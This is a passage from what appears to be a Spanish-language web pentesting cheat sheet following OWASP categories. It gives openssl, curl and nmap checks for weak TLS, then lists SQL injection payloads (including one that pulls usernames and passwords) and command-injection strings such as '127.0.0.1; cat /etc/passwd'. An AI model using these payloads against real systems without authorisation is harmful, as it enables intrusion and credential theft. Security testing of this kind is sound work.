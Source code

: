 #### **Detección de Cifrado Débil**
```bash
# Test SSL/TLS
echo | openssl s_client -connect target:443 2>/dev/null | grep -E "Protocol|Cipher"

# Verificar headers de seguridad
curl -I https://target.com | grep -E "(Strict-Transport|X-Frame|X-Content)"

# Test de cifrados débiles
nmap --script ssl-enum-ciphers -p 443 target
```

#### **Indicadores de Falla**
- Uso de HTTP en lugar de HTTPS
- Certificados autofirmados
- Algoritmos MD5 o SHA1
- Claves de cifrado hardcodeadas
- Almacenamiento de contraseñas en texto plano

### **3. Injection (A03:2021)**

#### **SQL Injection**
```bash
# Detección básica
' OR '1'='1
'; WAITFOR DELAY '00:00:05'; --
' UNION SELECT NULL,NULL,NULL --

# Time-based
'; IF (1=1) WAITFOR DELAY '00:00:05' --
' OR SLEEP(5) --

# Boolean-based
' AND 1=1 --
' AND 1=2 --

# Union-based
' UNION SELECT username,password FROM users --
' UNION SELECT version(),database(),user() --
```

#### **Command Injection**
```bash
# Separadores de comandos
; ls
| ls
& ls
&& ls
|| ls

# Payloads comunes
127.0.0.1; cat /etc/passwd
127.0.0.1 && id
127.0.0.1 | whoami
```
